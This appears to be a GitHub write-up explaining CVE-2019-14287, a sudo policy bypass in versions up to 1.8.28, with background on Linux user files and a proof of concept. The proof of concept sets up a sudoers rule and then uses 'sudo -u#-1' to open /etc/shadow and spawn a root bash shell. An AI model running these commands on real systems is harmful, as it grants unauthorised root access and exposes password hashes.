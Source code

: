 Vulnerability Details:
======================

-   Release date: 14th October 2019
-   CVE ID: CVE-2019-14287
-   Affected Versions: Versions prior to <= 1.8.28
-   <https://www.sudo.ws/alerts/minus_1_uid.html>

Brief description of the vulnerability
--------------------------------------

The security policy bypass vulnerability that allows users on a Linux system to execute commands as root, while the user permissions in the sudoers file explicitly prevents these commands from being run as root.

It can be executed by a user that has ALL permissions in the Runas specification. Which means they can execute commands as any or all users on the system.

This consequently allows users to run commands and tools as root by specifying the user id (UID) as -1 or the unsigned equivalent of -1: 4294967295

*sudo -u#-1 /usr/bin/id* or the unsigned equivalent of -1 *sudo -u#4294967295 /usr/bin/id*

Explanation of exploit
----------------------

### What is sudo?

sudo is a command that allows you to run scripts or programs that require administrative privileges.

You can also use the su (switch user) command to switch the superuser.

### How to check sudo version installed?

sudo --version

How user information is stored in Linux
---------------------------------------

Each user account has a username, unique identifier (UID), group(GID), home directory, and the default shell to be used when the user logs in to the system.

All user account related information is stored in the passwd file, located in */etc/passwd.*

Passwords in the passwd file are encrypted and are therefore represented by an x.

The encrypted passwords for accounts are stored in the shadow file, located in */etc/shadow*. The shadow file can only be accessed by the root user.

Structure of user account
-------------------------

username:password:UID:GID:comments:home_directory:shell

The first user in the passwd file is the root account.

The root account always has a UID of 0.

System accounts have a UID of less than 1000 while user accounts have UID >= 1000.

The sudoers file
----------------

The sudoers file contains all the permissions for users and groups on a Linux system. it is found in */etc/sudoers.*

The sudoers file can be accessed and modified securely by using visudo.

visudo is a tool that allows you to access and make changes to the sudoers file securely, it does this by ensuring that only one user is editing the sudoers file and by checking for logical errors.

We will use visudo to demonstrate the exploit.

POC
---

This will depend on user permissions in regards to commands specified within the sudoers file.

### Requirements:

-   The user requires sudo privileges that allow running of commands with user ID's -- We will be setting this up in the sudoers file
-   sudo version <= 1.8.28

1) Create user on system.

2) Modify the sudoers file with visudo.

3) Provide the user with sudo privileges and specify the commands that can be run.

alexis ALL=(ALL, !root) /usr/bin/vi

4) You can also specify a command alias.

Cmnd_Alias VIM = /usr/bin/vi

5) After setting up permissions, log in as user alexis and run command:

sudo -u#-1 vi /etc/shadow

6) To confirm this try running it without specifying the UID.

sudo vi /etc/shadow

This confirms that the UID -1 bypasses the permissions and allows for command execution.

You can also confirm this by using the id command.

7) If a user can run any command then we can get a bash shell as root user

alexis ALL=(ALL, !root) ALL

sudo -u#-1 bash
